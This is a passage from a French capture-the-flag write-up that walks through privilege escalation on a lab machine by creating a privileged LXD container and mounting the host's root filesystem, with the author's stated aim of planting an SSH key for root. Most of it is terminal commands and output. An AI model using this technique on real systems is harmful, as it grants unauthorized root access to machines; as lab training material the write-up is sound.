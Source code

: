 Malheureusement il a l'air assez solide.  

Il ne reste qu'à procéder à une escalade de provilège par LXC. Je me suis inspiré [d'un article](https://www.hackingarticles.in/lxd-privilege-escalation/) mais en évitant l'étape où l'on doit faire exécuter un script en root sur sa machine personnelle.  

Le principe est similaire à une escalade via Docker : on va créer un container sur lequel on monte le disque hôte. On en profite pour placer notre clé publique SSH comme clé autorisée pour root :  

```plain
jarves@hackerctflab:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (dir, lvm, ceph, btrfs) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
jarves@hackerctflab:~$ lxc list
To start your first instance, try: lxc launch ubuntu:18.04

+------+-------+------+------+------+-----------+
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
+------+-------+------+------+------+-----------+

jarves@hackerctflab:~$ lxc launch ubuntu:18.04
Creating the instance
Instance name is: cosmic-polecat            
Starting cosmic-polecat

jarves@hackerctflab:~$ lxc image list
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |                 DESCRIPTION                 | ARCHITECTURE |   TYPE    |   SIZE   |          UPLOAD DATE          |
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
|       | 62b292b5a57e | no     | ubuntu 18.04 LTS amd64 (release) (20211129) | x86_64       | CONTAINER | 194.36MB | Dec 13, 2021 at 12:56pm (UTC) |
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+

jarves@hackerctflab:~$ lxc image alias create yolo 62b292b5a57e
jarves@hackerctflab:~$ lxc image list
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |                 DESCRIPTION                 | ARCHITECTURE |   TYPE    |   SIZE   |          UPLOAD DATE          |
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
| yolo  | 62b292b5a57e | no     | ubuntu 18.04 LTS amd64 (release) (20211129) | x86_64       | CONTAINER | 194.36MB | Dec 13, 2021 at 12:56pm (UTC) |
+-------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+

jarves@hackerctflab:~$ lxc init yolo ignite -c security.privileged=true
Creating ignite

jarves@hackerctflab:~$ lxc config device add ignite host-root disk source=/ path=/mnt/root recursive=true
```